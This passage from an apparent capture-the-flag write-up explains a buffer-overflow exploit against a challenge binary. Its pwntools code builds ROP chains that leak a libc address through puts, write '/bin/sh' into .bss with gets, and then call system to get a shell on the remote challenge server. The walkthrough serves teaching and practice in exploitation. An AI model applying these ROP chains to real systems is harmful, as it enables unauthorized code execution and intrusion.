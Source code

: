 In my script, I put the got entry of `printf` into `RDI`, amd then called `puts`.

This prints us the address of the symbol `printf` inside `libc` itself, so we can just substract that constant offset, and get a leak for its base address.

After leaking, I jumped back to the `custom` function, so we can write a second stage rop chain with out leaks, and jump to system.

Here is it in my script:

```py
POPRDI = 0x00000000004008a3

p = remote('35.234.99.122' , 30407)

p.recvuntil(">> ")
p.sendline("3")
p.recvuntil("eat:")

p.sendline(b"A" * 112 + 8*b"B" + p64(POPRDI) + p64(elf.got.printf) + p64(elf.plt.puts) + p64(elf.sym.custom))

libc.address = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x64f70

print("Libc leak at", hex(libc.address))
```

Now, since we have libc, everything is easy from here.

We can trigger another buffer overflow attack, and call `system(/bin/sh)`.

One thing to notice is that somehow in the libc at the remote server, they overwrote the `/bin/sh` string in libc, to `no`.

This means we would need to write `/bin/sh` to a fixed location we know, and then calling `system` with that address.

Here is what I did in my script, I simply called `gets` into the `bss`, which we know its address:

```py
p.recvuntil("eat:")
p.sendline(b"A" * 112 + 8*b"B" + p64(POPRDI) + p64(elf.bss(0x100)) + p64(elf.sym.gets) + p64(elf.sym.custom))
p.sendline()
p.sendline("/bin/sh\x00")
```

Now, in our final stage, we are ready to call `system`!
```py
RET = 0x4008a4
p.sendline(b'A' * 112 + b'B' * 8 + p64(POPRDI) + p64(elf.bss(0x100)) + p64(RET) + p64(libc.sym["system"]))

p.sendline()
p.interactive()
```

You can see that I have added another `ret` instruction before calling to `system` because like in `baby-bof`, the stack wasn't aligned.
